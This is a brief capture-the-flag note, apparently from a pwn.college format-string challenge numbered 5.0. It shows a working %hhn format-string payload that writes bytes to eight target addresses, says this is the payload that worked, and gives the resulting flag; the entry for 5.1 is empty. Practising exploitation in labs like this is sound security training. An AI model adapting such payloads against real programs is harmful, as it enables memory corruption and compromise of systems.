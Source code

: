 5.0

`%13c%30$hhn.%37c%31$hhn.%5c%32$hhn.%4c%33$hhn.%10c%34$hhn.%17c%35$hhn%c%36$hhn %53c%37$hhnZZZZZZZZZZZZZ\x02\x41\x40\x00\x00\x00\x00\x00\x04\x41\x40\x00\x00\x00\x00\x00\x00\x41\x40\x00\x00\x00\x00\x00\x03\x41\x40\x00\x00\x00\x00\x00\x05\x41\x40\x00\x00\x00\x00\x00\x07\x41\x40\x00\x00\x00\x00\x00\x01\x41\x40\x00\x00\x00\x00\x00\x06\x41\x40\x00\x00\x00\x00\x00`

This is the format string that worked

The flag 

	pwn.college{04Yq0pR-XpdgLCVvS2CiSpNOGFv.dRjM0MDL5kzM1czW}


5.1


